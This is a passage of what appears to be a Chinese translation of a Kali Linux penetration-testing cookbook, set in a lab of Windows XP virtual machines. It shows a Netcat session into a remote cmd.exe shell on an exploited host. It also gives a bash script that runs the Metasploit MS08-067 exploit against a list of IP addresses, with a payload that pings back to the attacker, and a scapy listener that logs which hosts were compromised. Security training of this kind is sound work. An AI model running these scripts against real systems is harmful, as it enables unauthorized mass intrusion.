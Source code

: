 如果在不提供任何参数的情况下执行脚本，脚本将输出相应的用法。 该使用描述表明，该脚本应该以一个参数执行，该参数指定了包含目标 IP 地址列表的文本文件的文件名。 一旦以这个参数执行，会开始弹出一系列新的终端。 这些终端中的每一个将运行输入列表中的 IP 地址之一的利用序列。 原始执行终端在它们被执行时输出进程列表，并且表明在每个终端上创建后门。 在每个终端中完成利用序列之后，Netcat 可以用于连接到由载荷打开的远程服务：

```
root@KaliLinux:~# nc -nv 172.16.36.225 4444 
(UNKNOWN) [172.16.36.225] 4444 (?) open 
Microsoft Windows XP [Version 5.1.2600] 
(C) Copyright 1985-2001 Microsoft Corp.

C:\>

```

在提供的示例中，IP 地址为`172.16.36.225`的被利用的系统上的 TCP 4444 端口的连接，会生成可远程访问的`cmd.exe`终端服务。

### 工作原理

Netcat 是一个功能强大的工具，可以用于各种目的。 虽然这是远程执行服务的有效方式，但不建议在生产系统上使用此技术。 这是因为任何可以与监听端口建立 TCP 连接的人都可以访问 Netcat 打开的后门。

## 8.7 使用 ICMP 验证多线程 MSF 利用

该秘籍演示了如何使用 bash 利用跨多个系统的单个漏洞，并使用 ICMP 流量验证每个漏洞的成功利用。 这种技术需要很少的开销，并且可以轻易用于收集可利用的系统列表。

### 准备

要使用此秘籍中演示的脚本，你需要访问多个系统，每个系统都具有可使用 Metasploit 利用的相同漏洞。 提供的示例复制了运行 Windows XP 漏洞版本的 VM，来生成 MS08-067 漏洞的三个实例。 有关设置 Windows 系统的更多信息，请参阅本书第一章中的“安装 Windows Server”秘籍。 此外，本节还需要使用文本编辑器（如 VIM 或 Nano）将脚本写入文件系统。 有关编写脚本的更多信息，请参阅本书第一章的“使用文本编辑器（VIM 和 Nano）”秘籍。

### 操作步骤

下面的示例演示了如何使用 bash 脚本同时利用单个漏洞的多个实例。 特别是，此脚本可用于通过引用 IP 地址的输入列表来利用 MS08-067 NetAPI 漏洞的多个实例：

```sh
#!/bin/bash
if [ ! $1 ]; then echo "Usage: #./script <host file>"; 
exit; fi

iplist=$1

for ip in $(cat $iplist)
do   
    gnome-terminal -x msfcli exploit/windows/smb/ms08_067_netapi PAYLOAD=windows/exec CMD="cmd.exe /c ping \"172.16.36.239 -n 1 -i 15\"" 
    RHOST=$ip E   
    echo "Exploiting $ip and pinging" 
done 
```

此脚本与上一个秘籍中讨论的脚本不同，因为载荷仅仅从被利用系统向攻击系统发回 ICMP 回响请求。 在执行`ping`命令并使用`-i`选项来指定生存时间（TTL）为15 时。此备用TTL值用于区分利用生成的流量与正常 ICMP 流量。 还应该执行定制的 Python 监听器脚本，通过接收 ICMP 流量来识别被利用的系统。 这个脚本如下：

```py
#!/usr/bin/python

from scapy.all import * 
import logging 
logging.getLogger("scapy.runtime").setLevel(logging.ERROR)

def rules(pkt):   
    try:      
        if ((pkt[IP].dst=="172.16.36.239") and (pkt[ICMP]) and pkt[IP]. ttl <= 15):         
            print str(pkt[IP].src) + " is exploitable"      
    except:         
        pass
```